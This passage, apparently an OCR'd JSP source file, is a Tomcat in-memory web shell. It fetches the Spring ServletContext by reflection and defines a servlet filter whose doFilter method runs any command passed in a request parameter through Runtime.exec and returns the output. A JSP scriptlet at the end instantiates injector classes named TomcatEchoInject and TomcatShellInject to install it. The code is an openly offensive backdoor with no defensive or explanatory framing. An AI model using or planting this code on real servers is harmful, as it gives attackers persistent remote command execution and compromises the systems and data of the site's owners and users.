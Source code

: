 ```jsp
                Method m = c.getMethod("getCurrentWebApplicationContext");
                Object o = m.invoke(null);
                c = Class.forName("org.springframework.web.context.WebApplicationContext");
                m = c.getMethod("getServletContext");
                ServletContext servletContext = (ServletContext) m.invoke(o);
                return servletContext;
            } catch (Throwable t) {}
            return null;
        }

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
                throws TransletException {

        }

        @Override
        public void init(FilterConfig filterConfig) throws ServletException {

        }

        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse,
                             FilterChain filterChain) throws IOException, ServletException {
            String cmd;
            if ((cmd = servletRequest.getParameter(cmdParamName)) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }

        @Override
        public void destroy() {

        }
    }


%>

<%
    TomcatEchoInject te = new TomcatEchoInject();
    te.init();
    TomcatShellInject ts = new TomcatShellInject();

    if(ts.init2(request.getServletPath(), request)){
```